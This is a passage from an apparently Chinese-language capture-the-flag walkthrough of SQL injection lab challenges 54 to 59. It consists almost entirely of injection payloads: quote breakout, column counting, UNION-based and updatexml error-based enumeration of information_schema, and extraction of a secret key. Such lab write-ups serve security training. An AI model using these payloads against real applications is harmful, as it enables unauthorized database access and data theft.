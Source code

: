 `?id=1`

`?id=1'`

`?id=1' order by 4;%23`

`?id=1' order by 3;%23`

`?id=-1' union select 1,2,3;%23`

`?id=-1' union select 1,2,(select group_concat(schema_name) from information_schema.schemata);%23`


`?id=-1' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='challenges');%23`

`?id=-1' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='HBGWD6KDWA');%23`

`?id=-1' union select 1,2,(select group_concat(secret_VXO7) from challenges.HBGWD6KDWA);%23`

拿到key

### 55 Challengs-1

闭合改成`)`
同上

### 56 Challengs-1

闭合改成`')`
同上

### 57 Challengs-1

闭合改成`"`
同上

### 58 Challengs-2

`?id=-1' and updatexml(0,concat(0x7e,(select group_concat(schema_name) from information_schema.schemata)),0);%23`

`?id=-1' and updatexml(0,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='challenges')),0);%23`

`?id=-1' and updatexml(0,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='RB8A94YYQK')),0);%23`

`?id=-1' and updatexml(0,concat(0x7e,(select group_concat(secret_AQ5T) from challenges.RB8A94YYQK)),0);%23`

拿到key

### 59 Challengs-2

闭合改成整型
同上
